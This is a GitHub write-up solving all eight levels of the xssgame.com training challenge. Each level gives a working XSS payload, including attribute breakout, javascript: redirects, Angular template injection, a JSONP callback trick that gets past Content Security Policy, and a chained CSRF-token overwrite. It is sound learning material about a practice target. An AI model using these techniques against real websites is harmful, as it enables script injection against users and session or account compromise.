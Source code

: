 # [xssgame.com](http://xssgame.com/)

My solutions for the XSS Game.
I wasn't able to solve everything by myself.
Took [inspiration from here](https://github.com/NotSurprised/XSSgame-Writeup/) for level 3, 7 and 8.

## Level 1

The input is embedded as-is into the page that'll load next.

```
<script>alert()</script>
```

## Level 2

The input becomes an argument as follows `onload="startTime(' + input + ');"`.

```
3');alert('
```

This works because `3');` correctly terminates the original function call, `alert('` starts a new call, "ending" of the original one.

## Level 3

Entering the following URL into the search bar works.

```
http://www.xssgame.com/f/u0hrDTsXmyVJ/#'onerror='alert()'
```

Sometimes it told me for this and similar inputs that this is wrong, something about absolute URLs, etc., but it accepted it.
Try switching from single to double apostrophes, use `onload` instead, etc.

## Level 4

There's an intermediate navigation which sets `window.location` to a query string parameter's value.

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

## Level 5

The page is modified before Angular processing kicks in.
The `utm_term` query string parameter's value is injected into the value of `<input name="utm_term">`.

```
http://www.xssgame.com/f/JFTG_t7t3N-P/?utm_term={{alert()}}
```

## Level 6

Simply posting the form doesn't inject anything useful into the response HTML.
Issuing a GET request like `/?query={{alert}}` results in the modification of the form's `action` parameter, it'll end up like this: `<form action="/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}"`.
The leading `{{` is dropped. Replacing it with an HTML entity works, however `&#123;` doesn't, only `&lcub;`.

```
http://www.xssgame.com/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}
```

## Level 7

Sending a GET request to `http://www.xssgame.com/f/wmOM2q5NJnZS/?menu=...` by supplying the `menu` parameter a Base64 payload indirectly injects the following into the page.

```
<script src="jsonp?menu=' + encodeURIComponent(menu) + '">
```

Using `btoa('<script>alert();</script>')` as the payload doesn't quite work though, we get the following error.

```
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src http://www.xssgame.com/f/wmOM2q5NJnZS/ http://www.xssgame.com/static/". Either the 'unsafe-inline' keyword, a hash ('sha256-/NOakGMgxH1rSep6q9+wRmM98LxyJLGvY2s9h3kZOjY='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```

The error is due to the CSP set by the server-side. After the "trick" payload the DOM contains the following.

```
<h1>Error, no such menu: <script>alert();</script></h1>
```

Since the response body of the [JSONP](https://en.wikipedia.org/wiki/JSONP) call is `callback({"title":"Error, no such menu: <script>alert();</script>"})`.
This will execute the `callback(...)` function, which contains `if (data.title) document.write('<h1>' + data.title + '</h1>');`, essentially injecting whatever in the `data.title` into the page itself.

JSONP is [exploitable if callback names supplied to such an endpoint are unsanitized](https://en.wikipedia.org/wiki/JSONP#Callback_name_manipulation_and_reflected_file_download_attack), meaning we can do this.

```
btoa('<script src="jsonp?callback=alert"></script>')
```

This ends up in the DOM as follows.

```
<h1>Error, no such menu: <script src="jsonp?callback=alert"></script></h1>
```

Which doesn't trigger the CSP, but triggers a GET request with the following response body.

```
alert({"title":"Welcome to my Website!","pictures":["const.png"]})
```

## Level 8

There are two forms, the second requires a valid CSRF token to be passed along the request.
The first one looks like this.

```
<form method="GET" action="set">
    <input type="hidden" name="name" value="name">
    <input size="30" name="value" placeholder="Please specify your name">
    <input type="hidden" name="redirect" id="redirect" value="index">
    <input type="submit" value="Set">
</form>
```

There's a hidden input called `name` which is dangerous, it seems to allow setting of some parameter name on the backend instead of relying on a well-known value.

Because of this shortcoming `http://www.xssgame.com/f/d9u16LTxchEi/set?name=csrf_token&value=x&redirect=index` works, essentially setting the CSRF token (the response headers contains the token with the value `x`).

To pass the challenge one navigation should do the trick, this is where the second form comes in the picture. Setting its `amount` parameter to `<script>alert()</script>` does the trick. Since the amount should be an integer a validation error message is injected into the page.

```
http://www.xssgame.com/f/d9u16LTxchEi/transfer?name=&amount=%3Cscript%3Ealert%28%29%3C%2Fscript%3E&csrf_token=x
```

However to pass the challenge all has to be done in one go. Since the first form contains a `redirect` parameter we can do this. We must tack the following at the end: `encodeURIComponent('transfer?name=&amount=<script>alert()</script>&csrf_token=x')`.

```
http://www.xssgame.com/f/d9u16LTxchEi/set?name=csrf_token&value=x&redirect=transfer%3Fname%3D%26amount%3D%3Cscript%3Ealert()%3C%2Fscript%3E%26csrf_token%3Dx
```
